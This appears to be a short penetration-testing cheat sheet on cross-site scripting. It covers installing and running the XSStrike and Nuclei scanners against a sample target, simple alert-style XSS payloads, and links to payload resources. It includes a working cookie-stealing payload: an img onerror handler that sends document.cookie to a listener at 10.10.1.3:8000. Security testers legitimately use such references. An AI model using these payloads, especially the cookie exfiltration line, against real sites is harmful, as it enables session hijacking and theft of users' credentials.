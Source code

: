 ```yaml
---
description: Cross-site scripting cheat sheet
---
```


# XSS

### Tools

**XSStrike**&#x20;

* [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)

{% code overflow="wrap" %}
```bash
# Install
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
python3 -m venv xsstrike_env
source xsstrike_env/bin/activate
pip3 install -r requirements.txt

# run
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --fuzzer
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php" --crawl -l 3
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --file xss.txt
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj6vjZhXx_XMXjyfIXlDcQ3olR_mJFJ9vyJkDZqUOYNnQCzWDGUce_pb9cGm-TB4wN8g2RChnbB9DOY6ktcPmhpdAa2YNp4sdZKLcYpWKy_-WVCJCnAzvLsT4lhmWRRbVWPYQM9GIYEb0vWxgs92zbVWWtZnZerrO9NsErx2te4t_x4rz9pMxvWNXQetrw/s955/xsstrike.png" alt=""><figcaption><p>XSStrike</p></figcaption></figure>

**Nuclei**

{% code overflow="wrap" %}
```bash
nuclei -u "https://brutelogic.com.br/xss.php?a=" -tags xss
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiKsc7jaQE8ZSpeD6GKn80EHz74yUCi4kYhDz9cvS3gyxFa42vuwwVRQWWHPdEh6CJ5t_eY2rqml331wuze62eDs7-1DFqkVO8B21XW9z1spp8AfCYyFILb7F2rGlE8JobvylS_qMAYM5ou_Ak9swAkjA1nOf5_Pe8LJV2m4MgOIw-HT4kTOg9TRzsQaBs/s1195/xss%20nuclei.png" alt=""><figcaption><p>Nuclei XSS</p></figcaption></figure>

### Simple Payload

This is a simple payload that I commonly use for XSS testing.

{% code overflow="wrap" %}
```javascript
" autofocus onfocus=alert(document.domain) x="
"/><img src=x onerror=alert(document.domain) />
```
{% endcode %}

For Cookie Stealing

{% code overflow="wrap" %}
```javascript
<img src="x" onerror="fetch('http://10.10.1.3:8000?c=' + encodeURIComponent(document.cookie))">
```
{% endcode %}

### Resources

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
* [https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt](https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt)
